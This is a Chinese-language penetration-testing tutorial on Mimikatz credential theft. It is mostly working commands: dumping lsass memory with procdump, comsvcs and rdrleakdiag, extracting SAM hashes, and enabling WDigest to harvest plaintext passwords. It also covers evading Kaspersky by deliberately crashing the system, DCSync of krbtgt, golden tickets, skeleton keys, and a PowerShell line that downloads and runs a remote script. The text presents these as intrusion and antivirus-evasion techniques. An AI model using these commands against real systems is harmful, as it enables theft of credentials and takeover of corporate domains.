









0×00 前言
Mimikatz是法国人Benjamin Delpy编写的一款轻量级的调试工具，理论上可以抓取所有windows系统的明文密码（winxp之前的好像不行），因此在内网渗透过程中应用非常广，属于内网渗透必备工具之一，被很多人称之为密码抓取神器。Mimikatz其实并不只有抓取口令这个功能，它还能够创建票证、票证传递、hash传递、甚至伪造域管理凭证令牌等诸多功能。由于mimikatz的使用说明网上资料很多，本文主要是介绍一下mimikatz的一些免杀方式。
工具下载地址
https://github.com/gentilkiwi/mimikatz/releases
0x01 获取本地帐户密码
1.1 本地执行
右键以管理员方式运行cmd在当前终端中运行mimikatz.exe：
#提升权限
privilege::debug
#抓取密码
sekurlsa::logonpasswords
当目标为 win10 或 2012R2 以上时，默认在内存缓存中禁止保存明文密码，但可以通过修改注册表的方式抓取明文。
cmd 修改注册表命令：
#重启或用户重新登录后可以成功抓取
reg add HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f
1.2 SAM 表获取 hash
#导出SAM数据
reg save HKLM\\SYSTEM SYSTEM
reg save HKLM\\SAM SAM
#使用mimikatz提取hash
lsadump::sam /sam:SAM /system:SYSTEM
其他方式+mimikatz
0x02 lsass内存dump
通过以下操作可先获取到lsass内存文件，然后使用mimikatz可进一步读取密码
1.procdump64
当 mimikatz 无法在主机上运行时，可以使用微软官方发布的工具 Procdump 导出 lsass.exe:
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
createminidump
createminidump.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
SqlDumper
for /f "tokens=2" %i in ('tasklist /FI "IMAGENAME eq lsass.exe" /NH') do Sqldumper.exe %i 0 0x01100

powershell
for /f "tokens=2" %i in ('tasklist /FI "IMAGENAME eq lsass.exe" /NH') do powershell -c "rundll32 C:\windows\system32\comsvcs.dll, MiniDump %i C:\lsass.dmp full"

rdrleakdiag转储的新方法
rdrleakdiag.exe Microsoft Windows Resource Leak Diagnostic
默认存在的系统：
Windows 10 Windows 8.1 Windows 8 Windows7 windows Vista 软件版本 10.0.15063.0 6.3.9600.17415 6.2.9200.16384 6.1.7600.16385 6.0.6001.18000 另外有师傅测试2008没有该exe文件，2016存在。没有的情况可以选择传一个上去。
使用方法
for /f "tokens=2" %i in ('tasklist /FI "IMAGENAME eq lsass.exe" /NH') do rdrleakdiag.exe /p %i /o c:\users\ /fullmemdmp /wait 1
会产生两个文件，results_+进程pid+.hlk，minidump_+进程pid+.dmp。
绕过卡巴读取密码
0x01 方法
1.kill 掉杀软保护的进程
首先想到的就是关掉杀软的进程，但是肯定要高权限，但是之前尝试内网渗透时遇到了某数字… 提权到 system 也并不能关掉数字的某些进程，所以觉得此处有坑，对症下药吧。
2. 通过蓝屏获取 memory.dmp 绕过卡巴
深夜趴土司趴博客，找到了大佬的文章通过 Windows 蓝屏文件来绕过 kaspersky 的内存保护抓密码
这种可行，虚拟机测试了下，让系统蓝屏的方式有很多种，结束掉一些系统进程就可以了，比如 dcom 服务进程，wininit.exe 进程等。
但是这里还有另外一个问题，开始的时候我转存找不到 lsass。看土司上大佬的帖子说，系统默认在蓝屏的时候只核心内存转储，需要去 “系统保护”（或者 “高级系统属性”）–>“启动和故障恢复”–>“写入调试信息” 中修改为完全内存转储，否则获取到的 dmp 文件中没有 lsass 进程的信息。完事之后还需要再重启。也就说连着蓝屏一次总共重启两次，那么这个时候如果第一次重启，域管没有重新登录，那么又怎么能保证获取到的明文密码中有域管的呢？

这里用管理员权限执行 cmd：
taskkill /f /im "wininit.exe"

image-20200319184615285.png
在 C:WindowsMEMORY.DMP 把文件取出到本地。

使用 Windbg（微软的一个调试工具，官网有下载）加载 memory.dmp。

image-20200319203312257.png
在工具里使用命令行加载 mimikatz 的 mimilib.dll ：
.load E:\tools\MIMILIB.DLL
# load前有个点

然后设置微软符号服务器，再重新加载：
.SymFix # 微软符号服务器
.Reload # 重新加载

image-20200319204530650.png
之后就是查看 lsass.exe 进程的内存地址，切换到 lsass.exe 进程中：
!process 0 0 lsass.exe
# 查看lsass.exe进程的内存地址
.process /r /p fffffa800e069b00
# 切换到lsass.exe进程
最后运行 mimikatz：
!mimikatz
不过我在这里失败了，不清楚原因，可能是 MEMORY.DMP 有点小问题。不过这个也是个思路了。
3. 使用 RPC 控制 lsass 加载 SSP
最近一直看到大佬们在提到这个，最开始是 github 一个叫 XPN 的大牛在开源了代码。
https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e
Ateam 大佬发文章用到了这个，按照大佬们的说法就是加载 dump 内存文件的 dll 到 lsass.exe 进程里，让 lsass.exe 自己 dump 出内存文件。
不过我编译时踩坑无数。
各种报错，最后用 VS2019 设置字符集为多字节字符集，并且在头文件加了一个库文件解决了编译问题：
load_ssp.exe ssp.dll

将 lsass.dmp 下载到本地后，然后执行 mimikatz:
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
为了方便复制与查看，可以输出到本地文件里面：
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" > pssword.txt
使用以下命令将票据注入内存 kerberos::ptc 凭证地址
kerberos::purge 清除票据 kerberos::list //查看凭证
导出 krbtgt 的 NTLM Hash lsadump::dcsync /domin:sec.com /user:krbtgt
伪造票据: mimikatz “kerberos::golden /domain:<域名> /sid:<域SID> /rc4: /user:<任意用户名> /ptt" exit
privilege::debug //提升权限
sekurlsa::logonpasswords //抓取密码
kerberos::list //列出存储票据
kerberos::purge //清空存储票据
kerberos::ptt XX.XX //导入票据
lsadump::dcsync /domain:test.com /all /csv //获取所有域用户
lsadump::dcsync /domain:test.com /user:test //指定获取某个用户的hash
lsadump::dcsync /domain:xx.com /user:krbtgt //获取krbtgt的用户hash
misc::skeleton //添加万能密钥
https://llwxx.top/blog/35 SpoolSample使用
KB2871997
在 KB2871997 之前， Mimikatz 可以直接抓取明文密码。
当服务器安装 KB2871997 补丁后，系统默认禁用 Wdigest Auth ，内存（lsass进程）不再保存明文口令。Mimikatz 将读不到密码明文。 但由于一些系统服务需要用到 Wdigest Auth，所以该选项是可以手动开启的。（开启后，需要用户重新登录才能生效）
原理：获取到内存文件lsass.exe进程(它用于本地安全和登陆策略)中存储的明文登录密码
利用前提：拿到了admin权限的cmd，管理员用密码登录机器，并运行了lsass.exe进程，把密码保存在内存文件lsass进程中。
抓取明文：手工修改注册表 + 强制锁屏 + 等待目标系统管理员重新登录 = 截取明文密码
procdump64.exe导出lsass.dmp
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
使用本地的mimikatz.exe读取lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit"
无法读取到密码。
在默认情况下，当系统为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，密码字段显示为null，此时可以通过以下方式开启，但需要用户重新登录后才能成功抓取。
开启Wdigest Auth
-
cmd
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f -
powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1 -
meterpreter
reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 1
关闭Wdigest Auth
关闭命令如下：
-
cmd
reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 0 /f -
powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 0 -
meterpreter
reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 0
强制锁屏
在开启 Wdigest Auth 后，需要管理员重新登录才能抓明文密码。
强制锁屏，让管理员重新登录。
-
cmd
rundll32 user32.dll,LockWorkStation -
powershell
Function Lock-WorkStation { $signature = @" [DllImport("user32.dll", SetLastError = true)] public static extern bool LockWorkStation(); "@ $LockWorkStation = Add-Type -memberDefinition $signature -name "Win32LockWorkStation" -namespace Win32Functions -passthru $LockWorkStation::LockWorkStation() | Out-Null } Lock-WorkStation
powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://x.x.x.x/Lock-WorkStation.ps1');"
重新读取，可读到明文密码。
参考地址：
F:\文章\未整理\vulnerability-paper-master\md\[后渗透]Mimikatz 使用大全.md
https://uknowsec.cn/posts/notes/Mimikatz%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E6%8A%93%E5%8F%96.html
https://www.jianshu.com/p/7ccf6e15fbe0
https://blog.thekingofduck.com/